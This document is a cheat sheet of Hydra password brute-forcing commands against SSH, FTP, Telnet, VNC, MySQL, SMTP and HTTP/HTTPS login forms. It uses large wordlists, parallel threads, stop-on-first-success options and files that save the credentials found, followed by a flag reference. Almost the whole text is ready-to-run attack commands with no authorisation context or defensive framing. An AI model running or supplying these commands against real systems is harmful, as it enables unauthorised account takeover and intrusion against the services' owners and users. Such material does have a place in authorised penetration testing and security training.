 # HYDRA



# SSH (single user)
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -V -o hydra-ssh.txt ssh://192.168.1.100

# SSH (multi-host from file)
hydra -L users.txt -P passlist.txt -M hosts.txt -t 2 -V -o hydra-ssh-multi.txt ssh

# FTP (user list + passlist)
hydra -L users.txt -P passwords.txt -t 6 -V -o hydra-ftp.txt ftp://192.168.1.50
hydra -t 4 -l "username" -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

# Telnet (single user)
hydra -l admin -P /usr/share/wordlists/fast.txt -t 6 -V -o hydra-telnet.txt telnet://10.0.0.20

# VNC (password list)
hydra -P /usr/share/wordlists/vnc.txt -t 4 -V -o hydra-vnc.txt vnc://192.168.1.120

# MySQL (db auth)
hydra -L dbusers.txt -P dbpass.txt -s 3306 -t 4 -V -o hydra-mysql.txt mysql://192.168.1.200

# SMTP (AUTH)
hydra -L users.txt -P pass.txt -s 587 -t 4 -V -o hydra-smtp.txt smtp://mail.example.com

# HTTP POST form (replace PATH, failure string)
# Template: "/path:field1=^USER^&field2=^PASS^:F=FailureString"
hydra -L users.txt -P pass.txt -t 8 -V -o hydra-http.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

# HTTPS (use https-post-form if available)
hydra -L users.txt -P pass.txt -t 6 -V -o hydra-https.txt 10.10.10.10 https-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"

# Use a combo file (user:pass per line)
hydra -C combos.txt -t 4 -V -o hydra-combo.txt ftp://192.168.1.50

# Exit on first found for a host
hydra -l admin -P passlist.txt -f -t 4 -V ssh://192.168.1.100 -o hydra-firstfound.txt

# Use SSL/TLS where supported (service modules vary)
hydra -L users.txt -P pass.txt -S -t 4 -V -o hydra-ssl.txt smtp://mail.example.com:465

# Helpful quick flags:
# -l <user>       single username
# -L <file>       username list
# -p <pass>       single password
# -P <file>       password list
# -C <file>       combo file (user:pass)
# -M <file>       target hosts list
# -t <tasks>      parallel tasks (threads)
# -V              verbose (show attempts)
# -f              stop after first valid credential per host
# -o <file>       write found results

# Example: multi-target, threaded, write results
hydra -L users.txt -P passlist.txt -M targets.txt -t 3 -V -f -o hydra-results.txt ssh
